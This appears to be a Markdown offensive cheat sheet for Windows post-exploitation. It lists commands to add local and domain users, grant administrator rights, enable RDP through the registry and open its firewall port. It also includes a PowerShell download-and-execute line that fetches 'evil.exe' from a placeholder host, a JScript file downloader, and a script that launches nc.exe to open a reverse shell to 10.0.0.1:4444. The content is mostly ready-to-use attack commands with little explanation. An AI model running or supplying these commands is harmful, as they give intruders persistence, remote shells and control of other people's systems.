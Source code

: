 # Windows

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

- Connect to windows RDP
```
rdesktop -g 95% -u user -p password 10.0.0.1 -r disk:share=/ftphome
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```

## Change user
- userchange.ps1
```powershell
$secpasswd = ConvertTo-SecureString "passwordhere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("usernamehere", $secpasswd)
$computer = "Hostnamehere"
[System.Diagnostics.Process]::Start("c:\temp\nc.exe","10.0.0.1 4444 -e cmd.exe",$mycreds.Username, $mycreds.Password, $computer)
```
- execute as
```
powershell -ExecutionPolicy Bypass -File c:\temp\change_user.ps1
```


